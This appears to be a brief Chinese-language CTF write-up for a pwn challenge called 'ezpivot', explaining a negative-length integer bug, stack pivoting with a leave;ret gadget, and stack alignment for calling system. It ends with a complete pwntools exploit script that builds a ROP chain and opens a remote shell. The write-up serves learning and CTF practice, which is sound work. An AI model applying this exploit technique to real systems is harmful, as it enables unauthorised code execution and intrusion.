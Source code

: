 # ezpivot

脑雾传奇之永远记不住system调用要多大的栈空间

输入introduction的长度时可以输负数，绕过0x20的长度限制；随后introduce中调用read，先前输入的负数会转成ulong

至于栈迁移，二级结论如下：
- 将rbp覆盖成要跳转的地址-8
- 返回地址覆盖成`leave;ret` gadget

magic里提供了pop rdi的gadget；system的调用在假backdoor里有。注意用`add rsp,0x8`腾出足够的空间给system，不然会报错（gdb跟进会发现system内部有类似`sub rsp,0x388`之类的语句，地址不够高的话就会引用不可写的空间）
```py
from pwn import *
p=remote()
p.sendlineafter("tion.",'-1')
p.sendline(b'/bin/sh\x00'+p64(0x00401016)*256+p64(0x00401219)+p64(0x00404060)+p64(0x00401230))
p.sendafter(":",b'a'*(0x14-8)+p64(0x00404060)+p64(0x0040133e))
p.interactive()
```
